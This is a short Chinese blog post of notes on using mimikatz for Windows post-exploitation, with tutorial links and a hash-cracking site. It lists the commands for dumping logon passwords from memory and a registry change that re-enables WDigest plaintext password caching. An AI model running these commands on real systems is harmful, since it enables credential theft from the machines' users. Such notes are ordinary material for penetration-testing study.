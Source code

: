 ```yaml
---
layout: post
title: "mimikatz 使用"
description: ""
date: 2023-07-11
categories:
  - Windows後滲透
  - Privesc_Tools
author: ""
tags: ['Windows後滲透', 'Privesc_Tools']
---
```




# mimikatz 使用
 

教學:

https://www.cnblogs.com/-mo-/p/11890232.html

https://www.freebuf.com/articles/web/176796.html

https://blog.csdn.net/Ping_Pig/article/details/121228950

https://juejin.cn/post/7028872290502705183

https://wbglil.github.io/2018/03/10/%E7%A5%9E%E5%99%A8mimikatz/

## PsExec
https://learn.microsoft.com/zh-tw/sysinternals/downloads/psexec






線上hash 破解:

LM加密的成功率比較高
https://hashes.com/en/decrypt/hash


三個常用命令
```
記錄在log
log


debug 的高權限
privilege::debug


列出密碼
sekurlsa::logonpasswords



```


只要有上kb2871997補丁，或是Windows 8.1 和 Windows Server 2012 R2以上高版本無法在內存中加載明文密碼，要修改註冊表

cmd 加上鍵值:
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

```

重開或是重登就會密碼就會儲存在內存中


另外假如一台windows 只有 管理員登入的話，內存就只有管理員的密碼，如果其他人已經登入過了，就會出現其他人的密碼。


